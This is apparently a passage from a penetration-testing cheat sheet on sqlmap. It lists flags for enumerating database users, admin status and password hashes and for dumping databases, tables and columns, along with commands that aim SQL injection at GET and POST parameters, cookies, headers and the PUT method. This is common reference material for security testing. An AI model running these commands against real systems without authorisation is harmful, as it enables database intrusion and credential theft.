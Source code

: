 #### Internal

```bash
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
```

#### DB data

```bash
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

## Injection place

### From Burp/ZAP capture

Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user
```

### GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

### POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

### Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```
